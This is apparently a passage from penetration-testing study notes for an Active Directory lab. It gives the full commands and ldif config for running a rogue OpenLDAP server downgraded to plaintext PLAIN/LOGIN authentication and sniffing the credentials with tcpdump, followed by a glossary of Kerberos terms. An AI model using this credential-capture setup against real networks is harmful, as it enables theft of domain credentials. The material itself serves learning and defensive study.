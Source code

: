 There are several ways to host a rogue LDAP server, but we will use OpenLDAP for this example.

```
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
sudo dpkg-reconfigure -p low slapd
```

Before using the rogue LDAP server, we need to make it vulnerable by downgrading the supported authentication mechanisms. We want to ensure that our LDAP server only supports `PLAIN` and `LOGIN` authentication methods. To do this, we need to create a new ldif file, called with the following content:

```
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

The file has the following properties:
- `olcSaslSecProps`: Specifies the SASL security properties
- `noanonymous`: Disables mechanisms that support anonymous login
- `minssf`: Specifies the minimum acceptable security strength with 0, meaning no protection.

Now we can use the ldif file to patch our LDAP server using the following:

```
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```

We can verify that our rogue LDAP server's configuration has been applied using the following command:

```
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
```

Then listen for the service:

```
sudo tcpdump -SX -i breachad tcp port 389
```


## Kerberos (Windows ticket-granting service (TGS))

Kerberos is a computer network authentication protocol that operates based on tickets, allowing nodes to securely prove their identity to one another over a non-secure network. It primarily aims at a client-server model and provides mutual authentication, where the user and the server verify each other's identity. The Kerberos protocol messages are protected against eavesdropping and replay attacks, and it builds on symmetric-key cryptography, requiring a trusted third party.

Kerberos is the default authentication service for Microsoft Windows domains. It is intended to be more "secure" than NTLM by using third party ticket authorization as well as stronger encryption.

#### Common Terminology:

- Ticket Granting Ticket (TGT) - A ticket-granting ticket is an authentication ticket used to request service tickets from the TGS for specific resources from the domain.
- Key Distribution Center (KDC) - The Key Distribution Center is a service for issuing TGTs and service tickets that consist of the Authentication Service and the Ticket Granting Service.
- Authentication Service (AS) - The Authentication Service issues TGTs to be used by the TGS in the domain to request access to other machines and service tickets.
- Ticket Granting Service (TGS) - The Ticket Granting Service takes the TGT and returns a ticket to a machine on the domain.
- Service Principal Name (SPN) - A Service Principal Name is an identifier given to a service instance to associate a service instance with a domain service account. Windows requires that services have a domain service account which is why a service needs an SPN set.
- KDC Long Term Secret Key (KDC LT Key) - The KDC key is based on the KRBTGT service account. It is used to encrypt the TGT and sign the PAC.